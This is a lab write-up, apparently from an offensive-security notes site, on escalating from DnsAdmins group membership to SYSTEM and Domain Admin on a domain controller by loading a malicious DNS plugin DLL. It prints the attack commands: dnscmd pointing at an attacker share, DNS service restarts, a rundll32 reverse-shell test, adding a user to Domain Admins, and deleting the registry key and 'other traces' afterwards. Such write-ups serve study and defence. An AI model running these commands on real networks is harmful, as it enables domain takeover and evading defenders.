










# From DnsAdmins to SYSTEM to Domain Compromise

In this lab I'm trying to get code execution with `SYSTEM` level privileges on a DC that runs a DNS service as originally researched by Shay Ber [here](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83).

The attack relies on a [DLL injection](../../offensive-security/t1055-process-injection/dll-injection.md) into the dns service running as SYSTEM on the DNS server which most of the time is on a Domain Contoller.

## Execution

For the attack to work, we need to have compromised a user that belongs to a `DnsAdmins` group on a domain. Luckily, our user `spotless` already belongs to the said group:

```csharp
 net user spotless /domain
```



### Building the DLL

As mentioned earlier, we need to build a DNS plugin DLL that we will be injecting into a dns.exe process on a victim DNS server \(DC\). Below is a screenshot of the DLL exported functions that are expected by the dns.exe binary. I have also added a simple system command to invoke a netcat reverse shell once the plugin is initialized and code is executed. 

I then tested the function with rundll32 as shown below, which returned a reverse shell to my attacking machine:

```csharp
rundll32.exe .\dnsprivesc.dll,DnsPluginInitialize
```



### Abuse DNS with dnscmd

Now that we have the DLL and we checked that it is working, we can ask the victim DC to load our malicious DLL \(from the victim controlled network share on host 10.0.0.2\) next time the service starts:



```csharp
dnscmd dc01 /config /serverlevelplugindll \\10.0.0.2\tools\dns-priv\dnsprivesc.dll
```



The below looks promising and suggests the request to load our malicious DLL was successful:



`dnscmd` is a windows utility that allows people with `DnsAdmins` privileges manage the DNS server. The utility can be installed by adding `DNS Server Tools` to your system as shown in the below screengrab.




The below command on the victim further confirms that our request was successful:

```csharp
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```


### Getting code execution with NT\SYSTEM

Now the next time dns service loads/gets restarted, our malicious DLL should be loaded and a reverse shell should be sent back to our attacking system, so let's go and restart the DNS service.



```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```



By this point, I should have received a reverse shell, but unfortunately, in my lab, this technique did not work as expected. 

After checking the DNS logs I saw the below error, suggesting there was something off with my DLL:


I tried exporting functions with C++ name mangling and without and although the DLL exports seemed to be OK per CFF Explorer, I was still not able to make the DC load my malicious DLL successfully:




Although I was not able to pull the attack in my labs, I did not want to remove these notes, just in case the they will be stubmled upon by a reader who had successfully carried out this attack and who would like to share their thoughts on what I am overlooking - this would be much appreciated.


Although I could not get my DLL loaded, I wanted to try injecting the meterpreter DLL into dns.exe using the same technique. 

It can be observed, that the DLL gets ineed loaded and we receive a call back from the meterpreter payload, but since the DLL does not conform to the required format \(does not have required exported functions\), the session dies immediately:



Since the above suggests that the the DLL code still got executed, we can try asking the DLL to execute the following on the DC:

```csharp
net group 'domain admins' spotless /add /domain
```

```text
dnsprivesc.dll
```


Before restarting the DNS service and getting our malicious DLL executed, let's make sure our attacking user spotless is not in `Domain Admins` group:



Now if we restart the DNS service which will load our addDA.dll, we see that the user spotless is now a member of the `Domain Admins`:




Warning: at this time the DNS service is probably crashed, so this is not the stealthiest methods and probably will get picked up by defenders real quick unless you can restore the DNS service immedialy.


Below confirms that the dns service is down, but we can still access the DC C$ share by DC's IP:



You could think about scripting/automating the after-attack cleanup and DNS service restoration and include the required code in the same malicious DLL that creates a backdoor user in the first place:



```csharp
reg query \\10.0.0.6\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
reg delete \\10.0.0.6\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
sc.exe \\10.0.0.6 stop dns
sc.exe \\10.0.0.6 start dns
//remove any other traces/logs
```





We can now access the C$ using DC01 computer name:



## References







